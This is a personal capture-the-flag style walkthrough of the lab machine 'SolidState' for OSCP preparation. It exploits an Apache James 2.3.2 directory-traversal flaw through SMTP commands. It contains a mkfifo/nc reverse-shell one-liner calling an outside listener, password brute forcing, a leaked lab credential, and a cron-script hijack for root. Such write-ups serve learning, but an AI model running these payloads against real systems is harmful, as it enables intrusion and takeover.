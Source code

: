 
Name: SolidState
Date:  21/11/2022
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- Learning to email like a boomer, regaining a mixture of respect and  
- Weird Ports are sometimes the  target and normality is rabbithole
- Rick Sanchez "Measure twice, cut once" - Read twice, cut once
- Telnet `ctrl + $escapekey` - harder than vim exiting for my brain.
- Linpeas is not everything 

Disclaimer I ran into the rsip protocol, the primilary exploit for this machine and walkthrough forgetting this a TJ Null box. I do not know the PrivEsc and di not read it. The challenge here would be very OSCP-esque recon or die; rerunning old recon attempts from long months past,  in the background being the other OSCP-esque methodological must for me returning to this box regardless of sort of knowing how the inital steps of this box are.  There is also a metasploit module for the intital phase of the box.

Little did I know this was going to be the equivent of Going Postal, except I just get kept in the cell till I eat the walls away with learn how to email people -  like real life. I am not an email person. Maybe one day I will be. Hopeful soon I will ajust to the discord server post covid world.

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![](ping.png)

Considering I already knew this stuff, but is not obvious to a random person trying this box. Just wait for prompts with nc. It makes no intuitive sense regardly, but these systems seem like a begone age that stil exist in the real world behind modern tech and teams.

![](waitforit.png)

Using default credentials
![](defaultcreds.png)

Public exploits avilabel for the [James 2.3.2](https://en.wikipedia.org/wiki/Apache_James) is the Java Apache Mail Enterprise Server, it manages the Apache Mailet API.
![](searchsploit.png)
I research the python3 version of the exploit that was unverified, which works, similiarly requires requires login. As all versions with cron.d wont work.

Metasploit exploit description: 
*"This module exploits a vulnerability that exists due to a lack of input validation when creating a user. Messages for a given user are stored in a directory partially defined by the username. By creating a user with a directory traversal payload as the username, commands can be written to a given directory. To use this module with the cron exploitation method, run the exploit using the given payload, host, and port. After running the exploit, the payload will be executed within 60 seconds. Due to differences in how cron may run in certain Linux operating systems such as Ubuntu, it may be preferable to set the target to Bash Completion as the cron method may not work. If the target is set to Bash completion, start a listener using the given payload, host, and port before running the exploit. After running the exploit, the payload will be executed when a user logs into the system. For this exploitation method, bash completion must be enabled to gain code execution. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account."*


The metasploit version; performs version checks, creates a user that will be receiving the payload 
```ruby
# The java Message objects for this user will now be stored in
# Either /etc/bash_completion.d or /etc/cron.d
# if it is a cron then
adduser ../../../../../../../../etc/$choice $password
# Delete mail objects containing payload from cron.d

# Then it send the payload to the 25 port
# connect to 25
ehlo admin@apache.com 
# added the extra quote to make this more readable in the line below!
mail from: <''@apache.com> 
rcpt to: ../../../../../../../../etc/cron.d # 60 secs its back
# RCPT TO command tells the SMTP mail server to who the message should be sent
data
From: admin@apache.com
```

References 
[Debug STMP connection for great description of SMTP commands that occuring exploitation of Mail servers](https://www.sparkpost.com/blog/how-to-check-an-smtp-connection-with-a-manual-telnet-session/)
[Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/smtp/apache_james_exec.rb)

The non metasploit route requires Python2.7 and some modifications
![](exploitmodification.png)

I misread and assume the below. The `>` is required for the addressing format.
```bash
# These line we mistaken
Changes to the `rcpt to` and `adduser` commands as well as the payload, which initially failed. I checked with metasploit the default being with cron.d. **Note I did remove the `>` in s.send() line** and retest. 
```

```bash
# One window/pane to catch the cron
nc -lvnp 110
# One window/pane for second shell
nc -lvnp 111
# Reverse shell for the cron shell to paste in to save time
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.109 111 >/tmp/g
# Copy and wait...to paset
```

which initially failed, checked with metasploit the default being with cron.d - change payload as double check, but again it failed.
![](crondnotworking.png)

Therefore we have to find another way to get ssh login to the box and this would then lead to potential lead to root on the box. Reminder, but for linearities sake will testing options, I also researched the python3 version of the exploit that was unverified, which works, just requires login. 

Background hydra
![](hydrainthebackground.png)

Recon or die and therefore testing server for memory leakage on eol version of apache
![](checkingtheapache.png)
Ran multiple times and did `-n 100`; same result each time, is it not [Optionsbleed](https://nvd.nist.gov/vuln/detail/CVE-2017-9798), just the bug. It may be [Apache bug #61207](https://bz.apache.org/bugzilla/show_bug.cgi?id=61207).

Instead of climbing down to lesser quality hour, but using ZAP as I check everything except jquery versions as xxs is not really what is required or useful foothold on box CVE-2020-11023, CVE-2020-11022, CVE-2015-9251 and CVE-2019-11358. There are no parametres. I reset the box encase of any potential I may have errors.  I [peaked at both Ivan's](https://ivanitlearning.wordpress.com/2020/08/23/hackthebox-solidstate/) - saw "reading emails" subsection title  and was it and enough. My excuse/reasoning as to why is my confusion with a similar box like this were password resets made no difference it seemed. It also seems like a really unethical thing to do if you were pentesting or redteaming... I suppose you could change it back shortly after, but still. Nevermind. I have been training myself to be more "hunt the shine things" with THM AD Red teaming stuff and playing a bit of Hacknet. I am not as fixated by constant email/ social media checking as other people seem to be. I feel that this does not deserve demotion to helped-through, yet. But that was last strike. If need it again or change my mind this is here for the record.

So I did the thing...
![](reseteveryone.png)

To make it easy for my idiot self. Then I remembered that I put this:

Took this to double check mailing addresses in exploit - metasploit does not 
![](potential.png)
...in my notes for two reason, acted on check one, but not the other. My bad. Added Email to Noting Template. To remember. Then remember that port 25 is not 110...

```
VRFY james@solid-state-security.com
VRFY john@solid-state-security.com
VRFY thomas@solid-state-security.com
VRFY mindy@solid-state-security.com
VRFY mailadmin@solid-state-security.com
# I tried 
ehlo # my ip, there ip, solid-state-security.com
# All ERR
```

https://learn.microsoft.com/en-us/exchange/mail-flow/test-smtp-telnet?view=exchserver-2019

![](cluesinthemail.png)

As not fan of emails general it is rather strange that the old versions are **this clunky**. It been almost a year since I hacked email ports.

![](poormindy.png)

`mindy : P@55W0rd1!2@`


## Exploit  & Foothold &  PrivEsc

Mindy is not powerful enough to know herself.
![](mindyisnotpowerfulenoughtoknowherself.png)

So with all my tryharding, which is positive. I did not need to edit code. I did not need to really understand the vulnerability. I enumerate and almost died trying. If my cheatsheets were up to par on POP3 this would have been a breeze. 

![1000](scriptfailed.png)

Retried and boom
![](retriedandbooom.png)

![](env.png)

We need to escape the rbash shell. We sort of escape it as much as possible with exploit or 
`ssh -t "bash --noprofile"`
![](what.png)


There is no sudo on this box. James is on the box.

Linpeas list:

- no gcc or cc or make so no:
Vulnerable to CVE-2021-4034 
Potentially Vulnerable to CVE-2022-2588
Potential pwnkit.

chmod 777 the bin directory to enumerate. 
![](chmodingthebin.png)

127.0.0.1 631

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
/opt/tmp.py

Although I could not run pspy64 due to restricted shell this seems like a script that is scheduled with cronjob
![](tmptmp.png)

Copying a back up to /home/mindy I added a simple bash reverse shell.

![](reverseshellattempt.png)

Root
![](root.png)

